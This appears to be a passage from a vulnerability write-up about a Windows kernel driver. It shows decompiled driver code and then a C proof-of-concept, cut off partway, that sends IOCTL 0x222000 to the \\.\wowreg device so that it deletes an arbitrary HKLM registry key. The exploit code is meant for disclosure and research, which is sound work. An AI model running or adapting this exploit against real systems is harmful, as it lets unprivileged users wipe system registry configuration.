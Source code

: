 ```c
                  *(undefined4 *)(pwVar8 + -1) = 0x5c;
                  wcsncat(_Dest,local_70,(ulonglong)(uVar2 >> 1));
                  uVar5 = FUN_00012098(_Dest);
                  local_res20 = (uint)uVar5;
                  if (-1 < (int)local_res20) {
                    FUN_00011f38(&DAT_00015110,_Dest);
                  }
                  ExFreePoolWithTag();
                }
              }
              local_90 = local_90 + 1;
            } while (local_90 < *(uint *)((longlong)_Dst + 0x14));
          }
          ExFreePoolWithTag(local_80,0);
        }
        ExFreePoolWithTag(_Dst,0);
        ZwClose(local_98);
        uVar5 = (ulonglong)local_res20;
      }
    }
  }
  return uVar5;
}
```

### IOCTL 0x222000 Proof-of-Concept - Arbitrary Registry Deletion (HKLM)
```c
#include <windows.h>
#include <winioctl.h>
#include <stdio.h>
#include <tchar.h>

// 0x222000
#ifndef IOCTL_WOWREG_DELETE
#define IOCTL_WOWREG_DELETE CTL_CODE(FILE_DEVICE_UNKNOWN, 0x800, METHOD_BUFFERED, FILE_ANY_ACCESS)
#endif

// to test this, create a registry entry under HKLM
static const wchar_t* kDefaultSuffix = L"SOFTWARE\\AmpaDriver\\test";

int wmain(int argc, wchar_t** argv)
{
    const wchar_t* suffix = kDefaultSuffix;

    HANDLE h = CreateFileW(L"\\\\.\\wowreg", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, nullptr, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, nullptr);
    if (h == INVALID_HANDLE_VALUE)
    {
        wprintf(L"[-] Unable to open wowreg handle");
        return 1;
    }

    const size_t inBytes = (wcslen(suffix) + 1) * sizeof(wchar_t);
    DWORD bytesReturned = 0;

    wprintf(L"[+] Using IOCTL 0x%08X to delete HKLM\\%s ...\n", IOCTL_WOWREG_DELETE, suffix);

    BOOL ok = DeviceIoControl(h, IOCTL_WOWREG_DELETE, (LPVOID)suffix, (DWORD)inBytes, nullptr, 0, &bytesReturned, nullptr);
    if (!ok)
    {
        wprintf(L"[-] Unable to execute IOCTL_WOWREG_DELETE. Probably device permission issue?\n");
```